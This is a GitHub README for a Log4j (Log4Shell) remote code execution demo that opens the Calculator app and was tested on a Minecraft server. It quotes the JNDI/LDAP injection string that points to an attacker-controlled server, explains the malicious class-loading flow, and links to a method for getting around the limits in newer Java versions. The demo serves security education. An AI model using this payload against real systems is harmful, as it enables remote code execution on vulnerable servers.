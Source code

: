 # Java Log4j Remote Code Execution (RCE) Vulnerability Demo

Author: Jonathan Qiao

Date: 12/22/2021

## Overview:

On November 24th a RCE vulnerability was found with Java's popular logging library Log4j. This demo uses this vulnerability to run console commands to open the Calculator app on vulnerable applications. It was tested successfully on minecraft server paper 1.16.5.

## How The Vulnerability Roughly Works: 

LDAP look up can be triggered in vulnerable Log4J versions by making the library log the following string: ```${jndi:ldap://localhost:100/e}``` where ```localhost:100/e``` is an attacker controlled LDAP server that replies with a malicious class name and class base location hosted on another HTTP server. An important note is that the vulnerable application must have 
```-Dcom.sun.jndi.ldap.object.trustURLCodebase=true``` as an argument for later versions of Java since the system property is by default set to false in higher versions.

For more specific info (including how to bypass the higher java version limite) go to this translated blog: [link](https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US)


## Graphics:

The following is a screenshot of the minecraft server terminal and the calculator app opened by the vulnerability
![OpenedCalculator](./Screenshots/CalculatorOpened.png)